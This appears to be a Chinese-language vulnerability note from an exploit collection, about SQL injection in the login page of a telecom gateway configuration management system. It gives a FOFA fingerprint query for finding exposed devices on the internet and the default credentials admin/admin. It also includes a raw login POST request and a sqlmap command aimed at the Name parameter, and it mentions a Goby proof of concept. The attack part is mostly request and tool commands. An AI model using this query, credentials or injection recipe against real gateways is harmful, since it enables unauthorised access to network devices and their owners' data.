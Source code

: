 # 电信网关配置管理系统 SQL注入漏洞

## 漏洞描述

电信网关配置管理系统 前台登陆页面用户名参数存在SQL注入漏洞

## 漏洞影响

> [!NOTE]
>
> 电信网关配置管理系统

## FOFA

> [!NOTE]
>
> body="src=\"img/dl.gif\"" && title="系统登录"

## 漏洞复现

登录页面如下

![](image/dx-1.png)

设备存在默认弱口令 **admin/admin**

![](image/dx-3.png)

登录的请求包为

```
POST /manager/login.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=2lfi6enp5gehalrb92594c80i6
Connection: close

Name=admin&Pass=admin
```

保存为文件使用 Sqlmap工具，注入点为 **Name参数**

```
sqlmap -r sql-1.txt -p Name --risk 3 
```

![](image/dx-2.png)

## Goby & POC

> [!NOTE]
>
> Hsmedia Hgateway default account

![](image/dx-4.png)